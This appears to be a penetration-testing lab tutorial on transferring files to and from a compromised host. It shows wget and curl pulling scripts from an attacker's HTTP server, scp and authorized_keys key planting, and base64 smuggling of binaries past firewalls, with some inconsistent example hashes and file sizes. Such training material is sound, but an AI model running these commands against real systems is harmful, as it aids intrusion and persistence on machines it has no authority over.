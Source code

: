 During any `penetration testing` exercise, it is likely that we will need to transfer files to the remote server, such as `enumeration scripts` or `exploits`, or transfer data back to our attack host. While tools like `Metasploit` with a `Meterpreter` shell allow us to use the `Upload` command to upload a file, we need to learn methods to transfer files with a standard `reverse shell`.

---

# wget


One straightforward approach is to run a `Python HTTP server` on your attack host and pull files from the target with `wget` or `cURL` from a `reverse shell`. Change into the directory containing the file and start the server with `cd /tmp` then `python3 -m http.server 8000` — this serves files on `http://0.0.0.0:8000/`.

Fetch the file from the remote system using `wget http://10.10.14.1:8000/linenum.sh` which will save `linenum.sh` locally on the target (output shows the transfer and saved file). If the target lacks `wget`, use `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` instead. Remember to replace `10.10.14.1` and `8000` with your attack-host IP and chosen port.

```bash
OathBornX@htb[/htb]$ cd /tmp
OathBornX@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

```bash
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```



---

# scp

Using `scp` requires valid `SSH` credentials and a reachable `sshd` on the target (typically `port 22`). From your attack host push a file with `scp linenum.sh user@10.10.14.5:/tmp/` or from a shell on the target pull to your host with `scp user@10.10.14.1:/home/attacker/collect.txt /tmp/`; use `-P` for a nonstandard port, `-r` for directories and `-C` to enable compression. For unattended transfers prefer `public key authentication` (create keys with `ssh-keygen` and install with `ssh-copy-id user@remotehost` or append the public key to `~/.ssh/authorized_keys`). Remember that using `scp` from a `reverse shell` requires the target to reach your host and an active `sshd` there — no wizardry, just keys and routes.

```bash
OathBornX@htb[/htb]$ scp linenum.sh user@TARGET_IP:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

---

# base64

During situations where a `firewall` blocks direct transfers over a `reverse shell`, a reliable fallback is to `base64`-encode the `binary` on your attack host, paste the resulting ASCII into the remote shell, then `decode` it back to a runnable `shell`. On your machine: `base64 -w 0 shell > shell.b64` (or `base64 shell > shell.b64` if `-w` isn’t available) to produce a single-line ASCII string you can copy. On the target create the file and paste the string (for very large files use `split` locally and concatenate remotely), then run `base64 -d shell.b64 > shell` (or `openssl base64 -d -in shell.b64 -out shell`) and `chmod +x shell` before executing. Test the file integrity with `file shell` or `md5sum`/`sha256sum` if possible — yes, it’s tedious, but it beats trying to explain to a firewall why you’re friends.

##### Attacker — encode and show for copy

```bash
# create single-line base64 and checksum
base64 -w 0 linpeas.sh > /tmp/linpeas.b64
md5sum linpeas.sh > /tmp/linpeas.md5

# display the base64 so you can copy it (it's one long line)
cat /tmp/linpeas.b64

# record the md5 value from /tmp/linpeas.md5 to compare later
cat /tmp/linpeas.md5
```

##### Target — paste (use a heredoc), decode, verify, make executable

```bash
# paste the single-line base64 string between EOF markers, then Ctrl-D
cat > /tmp/linpeas.b64 <<'EOF'
<PASTE THE SINGLE-LINE BASE64 STRING HERE>
EOF

# decode back to script
base64 -d /tmp/linpeas.b64 > /tmp/linpeas.sh

# if base64 -d is missing, use OpenSSL
# openssl base64 -d -in /tmp/linpeas.b64 -out /tmp/linpeas.sh

# make executable and verify
chmod +x /tmp/linpeas.sh
md5sum /tmp/linpeas.sh   # compare with the attacker's md5 value
file /tmp/linpeas.sh
ls -l /tmp/linpeas.sh
```

---

# Validating File Transfers

To validate the format of a file, we can run the [file](https://linux.die.net/man/1/file) command on it:

```bash
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

On your attack box run `md5sum` to record the original hash, then run `md5sum` on the transferred file on the target and compare — the two hashes must match to confirm the `ELF` wasn't corrupted.

```bash
md5sum linpeas.sh
# example output:
# d41d8cd98f00b204e9800998ecf8427e  linpeas.sh
```

```bash
md5sum /tmp/linpeas.sh
# example output:
# d41d8cd98f00b204e9800998ecf8427e  /tmp/linpeas.sh
```

If the hashes match, the transfer was successful and the `ELF` is intact.

---



